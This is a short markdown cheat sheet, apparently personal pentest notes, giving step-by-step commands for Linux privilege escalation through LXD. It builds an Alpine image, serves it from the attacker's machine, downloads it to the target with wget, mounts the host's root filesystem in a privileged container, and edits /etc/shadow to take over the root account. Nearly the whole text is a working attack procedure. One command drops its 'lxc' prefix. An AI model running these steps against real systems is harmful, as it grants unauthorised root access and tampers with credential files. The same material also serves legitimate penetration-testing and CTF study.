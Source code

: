 - - -
**lxd = linux container daemon**
- - -
## Priv Esc through LXD : 

on your machine

```sh
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder 
cd rootfs/usr/share 
mkdir alpine-mirrors 
cd alpine-mirrors
```

Add the following into MIRRORS.txt:
http://alpine.mirror.wearetriple.com

```sh
vi MIRRORS.txt
```

```sh
cd ../../../../ ; sudo ./build-alpine
```

```sh
 ls   # A tar file was generated.
 ```

```python
python3 -m http.server 80
```

###### On target machine : 

```sh
wget <our_IP>/<.tar_file_name>
``` 

```sh
lxd init
``` 

Skip all steps default ....just press Enter...

```sh
lxc image import ./<.tar_file_name> --alias privesc
```

```sh
lxc image list
```

```sh
lxc init privesc privesc-container -c security.privileged=true
```

```sh
lxc list
```

```sh
config device add privesc-container mydevice disk source=/ path=/mnt/root recursive=true
```

```sh
lxc start privesc-container
```

```sh
lxc list
```

```sh
lxc exec privesc-container /bin/sh
```

```sh
cd / ;  cd mnt/root ; ls 
```

```sh 
vim etc/shadow   # [ edit the root's password ]
``` 

 exit

```sh
su root
```

- - -


